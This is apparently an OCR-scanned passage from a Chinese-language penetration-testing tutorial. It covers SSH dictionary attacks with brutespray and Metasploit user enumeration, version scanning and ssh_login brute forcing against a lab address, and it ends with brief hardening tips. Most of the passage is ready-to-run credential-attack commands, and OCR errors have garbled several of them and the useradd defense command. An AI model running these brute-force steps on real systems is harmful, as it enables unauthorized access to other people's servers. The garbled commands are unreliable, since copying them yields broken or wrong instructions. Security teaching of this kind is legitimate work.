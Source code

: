 ## 4.3 字典爆破
`root@kali :~# brutespray --file 22.xml -U user1ist.txt-p passlist.txt --threads 5 --hosts 5`

# 五、MSF
Metasploit Framework（简称MSF）是一个编写、测试和使用exploit代码的完善环境。这个环境为渗透测试，Shellcode编写和漏洞研究提供了一个可靠的平台，这个框架主要是由面向对象的Perl编程语言编写的，并带有由C语言，汇编程序和Python编写的可选组件。

## 5.1 SSH模块
```bash
root@kali:~# msfconsole
msf > search ssh
```
## 5.2 SSH用户枚举
```bash
msf > use auxiliary/ scanner/ssh/ssh_ enumusers
msf auxiliary(scanner/ssh/ssh_ enumusers) > set phosts 192.168.106.134
msf auxiliary(scanner/ssh/ssh_ enumusers) > set USER_ FILE /root/userlist.txt
msf auxiliary(scanner/ssh/ssh_ enumusers) > run
```
## 5.3 SSH版本探测
```bash
msf > use auxiliary/scanner/ssh/ssh_ version
msf auxiliary( scanner/ssh/ssh_ _version) > set rhosts 192. 168.106.134
msf auxiliary( scanner/ssh/ssh_ _version) > run
```
## 5.4 SSH暴力破解
```bash
msf > use auxiliary/scanner/ssh/ ssh plogin
msf auxiliary( scanner/ssh/ssh_ login) > set rhosts 192. 168.106.134
msf auxiliary(scanner/ssh/ssh_ login) > set USER_ _FILE /root/userlist . txt
msf auxiliary(scanner/ssh/ssh_ login) > set PASS_ _FILE /root/passlist.txt
msf auxiliary(scanner/ssh/ssh_ _login) > run
```
# 六、暴力破解防御
## 6.1 useradd shell [推荐]
```bash
[root@tianyun ~]# useradd yangge -S /sbin/nologin
```
## 6.2 密码的复杂性[推荐]
字母大小写+数字+特殊字符+20位以上+定期更换

## 6.3 修改默认端口[推荐]
```bash
/etc/ssh/sshd_ config
Port 22222
```
